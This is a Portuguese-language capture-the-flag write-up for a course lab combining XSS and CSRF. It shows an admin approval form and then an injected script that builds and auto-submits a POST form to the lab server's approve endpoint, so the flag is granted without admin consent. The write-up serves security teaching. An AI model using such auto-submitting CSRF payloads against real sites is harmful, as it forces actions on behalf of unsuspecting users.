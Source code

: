 # CTF Semana 6 (XSS + CSRF)


## Descrição 
Foi-nos fornecido um servidor web, onde a página principal consiste numa caixa de texto para fazer um pedido de acesso à flag. A esse pedido é associado um id único, e através dele podemos aceder ao estado do pedido. Como utilizador sem permissões, o site apenas nos permite que esperemos pela resposta do administrador, mas poderemos atacar o servidor de forma a forçarmos que nos seja fornecida a flag.


## Análise do problema
Após submetermos um pedido de flag, a página onde somos redirecionados mostra o estado do pedido, juntamente com um link para a interface de administrador, e será nesta que nos focaremos.

Reparamos que, para gestão do pedido, o adminstrador tem dois formulários: para aprovar e para marcar como lido. Se conseguirmos forçar a submissão do primeiro, teremos acesso à flag.

```html
<form method="POST" action="/request/3bb6815491cc7143e18c4025c9b8a4f4d77bf347/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag" disabled>
    </div>
</form>

<form method="POST" action="/request/3bb6815491cc7143e18c4025c9b8a4f4d77bf347/mark_as_read" role="formRead">
    <div class="submit">
        <input type="submit" id="markAsRead" value="Mark request as read" disabled>
    </div>
</form>
```

## Resolução do problema 
Na página inicial, teremos de forçar a submissão do formulário de aprovação.

Como o site não têm token CSRF, poderemos forçar o site a executar código JavaScript criado por nós.

***Nota**: Teremos de desativar o JavaScript no browser para que o nosso script funcione.*

Neste caso, a função será assim:

```html
<script>
    var form = document.createElement('form');
    form.method = 'POST';
    form.action = 'http://ctf-fsi.fe.up.pt:5005/request/[ID]/approve';
    document.body.appendChild(form);
    form.submit();
</script>
```
***Nota**: O id tem de ser introduzido pelo utilizador*.

## Conclusão
Confirmando este input, basta esperarmos uns momentos e a flag aparecerá, e dessa forma o CTF dar-se-á por concluído.
![conclusao](ctf6.png)